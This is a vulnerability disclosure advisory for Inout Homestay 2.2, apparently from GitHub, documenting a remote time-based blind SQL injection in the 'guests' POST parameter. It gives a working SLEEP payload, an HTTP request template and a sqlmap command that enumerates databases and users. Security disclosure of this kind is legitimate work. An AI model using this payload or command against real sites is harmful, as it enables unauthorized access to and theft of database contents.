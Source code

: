 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
POC				    : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay Version 2.2 suffers from time-based blind SQL injection. POST parameters "guests" is vulnerable to SQL imjection attacks.This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability: time-based blind SQL injection in guests (POST) parameter.
Vulnerabile file: index.php
<br>

Payload: address=3137 Laguna Street&guests=1' AND (SELECT 1769 FROM (SELECT(SLEEP(5)))XPZb) AND
'ADfU'='ADfU&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://inout-homestay.demo.inoutscripts.net/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vlun-host.com
Connection: Keep-alive
address=3&guests=-1 [inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### POC: sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:

<br>
<img src="./resources/homestay-sqlmap3.png">
<br>
<img src="./resources/homestay-sqlmap4.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```
